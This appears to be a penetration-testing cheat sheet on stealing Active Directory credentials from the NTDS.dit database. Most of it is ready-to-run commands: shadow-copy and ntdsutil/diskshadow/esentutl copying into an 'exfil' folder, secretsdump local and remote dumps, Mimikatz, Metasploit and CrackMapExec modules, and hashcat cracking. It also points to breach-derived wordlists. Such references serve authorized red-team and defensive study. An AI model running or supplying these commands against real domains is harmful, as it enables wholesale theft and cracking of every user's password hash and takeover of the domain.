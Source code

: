 # NTDS.dit

The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.

The important NTDS.dit file will be located in: %SystemRoom%/NTDS/ntds.dit This file is a database Extensible Storage Engine \(ESE\) and is "officially" composed by 3 tables:

```text
Data Table: Contains the information about the objects (users, groups...)
Link Table: Information about the relations (member of...)
SD Table: Contains the security descriptors of each object
```

Windows uses Ntdsa.dll to interact with that file and its used by lsass.exe. Then, part of the NTDS.dit file could be located inside the lsass memory \(you can find the lastet accessed data probably because of the performance impruve by using a cache\).

## Decrypting the hashes inside NTDS.dit

You will need the following files to extract the ntds :

* NTDS.dit file
* SYSTEM hive \(C:\Windows\System32\SYSTEM\)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

* `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest \(the Configuration container data\).
* `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```text
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

The hash is cyphered 3 times:

```text
Decrypt Password Encryption Key (PEK) using the BOOTKEY and RC4.
Decrypt tha hash using PEK and RC4.
Decrypt the hash using DES.
```

PEK have the same value in every domain controller, but it is cyphered inside the NTDS.dit file using the BOOTKEY of the SYSTEM file of the domain controller \(is different between domain controllers\). This is why to get the credentials from the NTDS.dit file you need the files NTDS.dit and SYSTEM \(C:\Windows\System32\config\SYSTEM\).

### Copying NTDS.dit using Ntdsutil

Available since Windows Server 2008.

```text
ntdsutil "ac i ntds" "ifm" "create full c:\copy-ntds" quit quit
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

 or run ntdsutil interactivly:

```text
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

### Vshadow

You could also use the volume shadow copy trick to copy the ntds.dit file. Remember that you will also need a copy of the SYSTEM file \(again, dump it from the registry or use the volume shadow copy trick\).

```text
vssadmin create shadow /for=C :
Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit
```

You can also use the Nishang script, available at : [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

```text
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

### **Using vssadmin**

```text
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

### **Using DiskShadow \(a Windows signed binary\)**

```text
diskshadow.txt contains :
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset

then:
NOTE - must be executed from C:\Windows\System32
diskshadow.exe /s  c:\diskshadow.txt
dir c:\exfil
reg.exe save hklm\system c:\exfil\system.bak
```

### **Using esentutl.exe**

**​​**Copy/extract a locked file such as the AD Database

```text
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```

\*\*\*\*

### Extracting hashes from NTDS.dit

Once you have obtained the files NTDS.dit and SYSTEM you can use tools like secretsdump.py to extract the hashes:

```text
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile credentials.txt
```

### remote NTDS.dit Dump

You can also extract them automatically using a valid domain admin user:

```text
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.

### Metasploit & Mimikatz Modules

Finally, you can also use the metasploit module:

```text
post/windows/gather/credentials/domain_hashdump
lsadump::lsa /inject

```

### PowerSploit module

```text
Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
```

### CrackMapExec module

```text
cme smb 10.10.0.202 -u username -p password --ntds vss
cme smb 10.10.0.202 -u username -p password --ntds drsuapi #default
```

### Mimikatz

{% hint style="info" %}
Dumps credential data in an Active Directory domain when run on a Domain Controller.![warning](https://github.githubassets.com/images/icons/emoji/unicode/26a0.png) Requires administrator access with debug or Local SYSTEM rights
{% endhint %}

```text
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

## **Crack NTLM hashes with hashcat**

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:

Have I Been Powned \([https://hashes.org/download.php?hashlistId=7290&type=hfound](https://hashes.org/download.php?hashlistId=7290&type=hfound)\)

Collection \#1 \(passwords from Data Breaches, might be illegal to possess\)

```text
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r ./rules/best64.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

If the password is not a confidential data \(challenges/ctf\), you can use online "cracker" like :

* [hashes.org](https://hashes.org/check.php)
* [hashes.com](https://hashes.com/en/decrypt/hash)

